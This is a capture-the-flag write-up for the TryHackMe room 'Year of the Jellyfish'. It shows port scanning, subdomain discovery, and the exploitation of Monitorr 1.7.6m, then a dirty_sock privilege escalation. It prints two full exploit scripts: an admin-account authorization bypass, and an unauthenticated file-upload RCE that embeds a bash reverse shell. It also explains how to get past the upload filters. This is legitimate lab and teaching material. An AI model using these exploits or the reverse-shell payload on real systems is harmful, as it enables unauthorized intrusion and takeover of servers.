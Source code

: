 # Writeup of Year of the Jellyfish

This is my writeup for [Year of the Jellyfish](https://tryhackme.com/room/yearofthejellyfish) from [TryHackMe](https://tryhackme.com).

# Index
1. [Information Gathering](#information-gathering)
2. [Exploiiting Monitorr](#exploiting-monitorr)
3. [Exploiting Dirty Sock](#exploiting-dirty-sock)
4. [Conclusion](#conclusion)

# Information Gathering
Let's begin with an nmap scan.
```
# Nmap 7.91 scan initiated Wed May 12 01:41:18 2021 as: nmap -sV -p- -Pn -oN n
map/intial 54.171.161.67                                                    
Nmap scan report for ec2-52-215-190-139.eu-west-1.compute.amazonaws.com (54.171.161.67)                                                                    
Host is up (0.22s latency).                                                   
Not shown: 65527 filtered ports                                               
PORT      STATE SERVICE  VERSION                                              
21/tcp    open  ftp      vsftpd 3.0.3                                         
22/tcp    open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.4 (Ubuntu Linux; protoc
ol 2.0)                                                                       
25/tcp    open  smtp?                                                         
80/tcp    open  http     Apache httpd 2.4.29                                  
443/tcp   open  ssl/http Apache httpd 2.4.29 ((Ubuntu))                       
8000/tcp  open  http-alt                                                      
8096/tcp  open  unknown                                                       
22222/tcp open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protoc
ol 2.0)
```

Seems like there are services running on non standard ports. Upon visitng the webpage we get an error. 
![](images/http-error.png)

This just indicates that our system can't resolve the domain `robyns-petsthop.thm`. The fix is is simple, we add the `ip` and `domain` in our `/etc/hosts` file.
```shell 
$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali

54.171.161.67 robyns-petshop.thm
```
![](images/cert-error.png)
Accept the risk and continue.
![](images/robyns-petshop-1.png)
![](images/robyns-petshop-2.png)
![](images/robyns-petshop-contact.png)

Since there's not much here, we can take a look at port `8000`.
![](images/port-8000.png)
Trying arbitrary `id` just routes back to the same page.
![](images/port-8000-id.png)

Let's take a look at port `8096` next.
![](images/port-8096.png)
Testing it for the default `admin:admin` login, as well as `xss` and `sql` injection points didn't yield results. The only alternative left is to enumerate `subdomains`.

We can take a look at the certificate as it usually contains useful `DNS` info.
![](images/cert.png)
Bingo! We found some useful `subdomains`. To visit them we'll have to add them in `/etc/hosts` file as before.
```shell
$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali

54.171.161.67 robyns-petshop.thm monitorr.robyns-petshop.thm beta.robyns-petshop.thm dev.robyns-petshop.thm
```
![](images/monitorr.png)
Note the version of the service `Monitorr | 1.7.6m`. This can be useful in searching for any exploits. Clicking `PetShop and Jellyfin` results in an error as both try accessing  `localhost`.  
![](images/localhost.png)
There is also a settings page which contains some useful info on the presence of a database `datausers.db`. Testing for default login credentials as well as injection yeilds no results.
![](images/monitorr-settings.png)

Visitng `dev.robyns-petshop.thm` and `beta.robyns-petshop.thm` seem to be the same pages as before.
![](images/dev.png)
![](images/dev-contact.png)
![](images/beta.png)

# Exploiting Monitorr
Having exhausted all possibilities, we can now search for an exploit for `Monitorr | 1.7.6m`.
```shell
$ searchsploit monitorr 1.7.6m
------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                              |  Path
------------------------------------------------------------------------------------------------------------ ---------------------------------
Monitorr 1.7.6m - Authorization Bypass                                                                      | php/webapps/48981.py
Monitorr 1.7.6m - Remote Code Execution (Unauthenticated)                                                   | php/webapps/48980.py
------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results

$ cp /usr/share/exploitdb/exploits/php/webapps/48981.py authbypass.py
 && cp /usr/share/exploitdb/exploits/php/webapps/48980.py rce.py
```
- authbypass.py
```python
#!/usr/bin/python
# -*- coding: UTF-8 -*-

# Exploit Title: Monitorr 1.7.6m - Authorization Bypass
# Date: September 12, 2020
# Exploit Author: Lyhin's Lab
# Detailed Bug Description: https://lyhinslab.org/index.php/2020/09/12/how-the-white-box-hacking-works-authorization-bypass-and-remote-code-execution-in-monitorr-1-7-6/
# Software Link: https://github.com/Monitorr/Monitorr
# Version: 1.7.6m
# Tested on: Ubuntu 19

# Monitorr 1.7.6m allows creation of administrative accounts by abusing the installation URL.

import requests
import os
import sys

if len (sys.argv) != 5:
	print ("specify params in format: python " + sys.argv[0] + " target_url user_login user_email user_password")
else:
    url = sys.argv[1] + "/assets/config/_installation/_register.php?action=register"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Content-Type": "application/x-www-form-urlencoded", "Origin": url, "Connection": "close", "Referer": url, "Upgrade-Insecure-Requests": "1"}
    data = {"user_name": sys.argv[2], "user_email": sys.argv[3], "user_password_new": sys.argv[4], "user_password_repeat": sys.argv[4], "register": "Register"}
    requests.post(url, headers=headers, data=data)
    print ("Done.")
```
- rce.py
```python
#!/usr/bin/python
# -*- coding: UTF-8 -*-

# Exploit Title: Monitorr 1.7.6m - Remote Code Execution (Unauthenticated)
# Date: September 12, 2020
# Exploit Author: Lyhin's Lab
# Detailed Bug Description: https://lyhinslab.org/index.php/2020/09/12/how-the-white-box-hacking-works-authorization-bypass-and-remote-code-execution-in-monitorr-1-7-6/
# Software Link: https://github.com/Monitorr/Monitorr
# Version: 1.7.6m
# Tested on: Ubuntu 19

import requests
import os
import sys

if len (sys.argv) != 4:
	print ("specify params in format: python " + sys.argv[0] + " target_url lhost lport")
else:
    url = sys.argv[1] + "/assets/php/upload.php"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/plain, */*; q=0.01", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "X-Requested-With": "XMLHttpRequest", "Content-Type": "multipart/form-data; boundary=---------------------------31046105003900160576454225745", "Origin": sys.argv[1], "Connection": "close", "Referer": sys.argv[1]}

    data = "-----------------------------31046105003900160576454225745\r\nContent-Disposition: form-data; name=\"fileToUpload\"; filename=\"she_ll.php\"\r\nContent-Type: image/gif\r\n\r\nGIF89a213213123<?php shell_exec(\"/bin/bash -c 'bash -i >& /dev/tcp/"+sys.argv[2] +"/" + sys.argv[3] + " 0>&1'\");\r\n\r\n-----------------------------31046105003900160576454225745--\r\n"

    requests.post(url, headers=headers, data=data)

    print ("A shell script should be uploaded. Now we try to execute it")
    url = sys.argv[1] + "/assets/data/usrimg/she_ll.php"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
    requests.get(url, headers=headers)
```
As we don't have any login credentials, let's use `rce.py` which exploits a `file upload` vulnerability and creates a `reverse shell`. Setup a listener on a common port to bypass firewall restrictions.
![](images/ssl-error.png)
To bypass SSL certificate add `verify=false` as follows:
![](images/code-change-1.png)
![](images/ssl-success.png)
Still no reverse shell. Let's look at `/assets/php/upload.php`.
![](images/upload.png)
It expects an image to be uploaded and stores it in `/assets/data/usrimg`. 
![](images/assets-data.png)
Modify the code to include the extension `.png` as follows:
![](images/code-change-2.png)
Upon running the code again, we still don't manage to upload the file. Inspecting the page we can see that `isHuman=1`. This might be stopping us from uploading the file as the script doesn't set any cookies.
![](images/cookie.png)
Modifying the code again.
![](images/code-change-3.png)
![](images/upload-success.png)
We have successfully upload the file but it won't execute as it has extension `.png`. We can try common php extensions such `.php`, `.php7`, and `.phtml`. After trying all three `.phtml` works and we get the `reverse shell` connection.
![](images/code-change-4.png)
![](images/upload-revshell.png)
![](images/revshell.png)

As the server contains `python3`, upgrade to a stable shell and run `linpeas`.
![](images/linpeas.png)
![](images/flag1-location.png)
![](images/flag1.png)
`Flag1: THM{MjBkOTMyZDgzNGZmOGI0Y2I5NTljNGNl}`

# Exploiting Dirty Sock
I was stuck on this for a long time, but after extensive searching I found that we can exploit the `snapd` service.
![](images/sockets.png)
Checking the version of `snapd` service reveals the following:
![](images/snapd.png)
This version is vulnerable to `dirty_sock`.
```shell
$ searchsploit snapd 2.35           
----------------------------------------------------- ---------------------------------
 Exploit Title                                       |  Path
----------------------------------------------------- ---------------------------------
snapd < 2.37 (Ubuntu) - 'dirty_sock' Local Privilege | linux/local/46361.py
snapd < 2.37 (Ubuntu) - 'dirty_sock' Local Privilege | linux/local/46362.py
----------------------------------------------------- ---------------------------------
Shellcodes: No Results

$ cp /usr/share/exploitdb/exploits/linux/local/46361.py dirtysock.py

```
Upload the file to the server and run the exploit.
![](images/dirtysock.png)
![](images/exploit.png)
![](images/root.png)
![](images/root-flag.png)
`Root Flag: THM{YjMyZTkwYzZhM2U5MGEzZDU2MDc1NTMx}`

# Conclusion
This box was quite challenging and fun! I learnt a lot and hope this was helpful to you as well.
